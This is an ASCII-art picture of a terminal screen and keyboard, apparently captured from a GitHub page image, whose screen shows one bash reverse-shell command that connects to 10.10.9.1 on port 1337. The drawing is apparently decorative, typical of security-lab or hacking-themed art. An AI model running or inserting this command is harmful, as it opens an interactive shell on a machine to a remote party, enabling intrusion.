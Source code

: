 
    **********************************************************************************
    * $ bash -i >& /dev/tcp/10.10.9.1/1337 0>&1                                      *
    *                                                                                *
    *                                                                                *
    *                                                                                *
    *                                                                                *
    *                                                                                *
    *                                                                                *   
    *                                                                                *
    *                                                                                *
    **********************************************************************************
      ESC   F1 F2 F3 F4 F5 F6 F7 F8 F9 F10 F11 F12 PRT SCR  BRK
      ~       1 2 3 4 5 6 7 8 9 0 - =    BCKSP     INS HOME PGUP           -------
      TAB      q w e r t y u i o p { }    \|/      DEL END  PGDN           |  |  |
      CAPS     a s d f g h j k l : "     ENTER                             |     |
      SHIFT     z x c v b n m , . /      SHIFT          |                  |_____|
      CTRL WIN  ALT   S_P_A_C_E ALT   FN WIN CTRL    <- _ ->
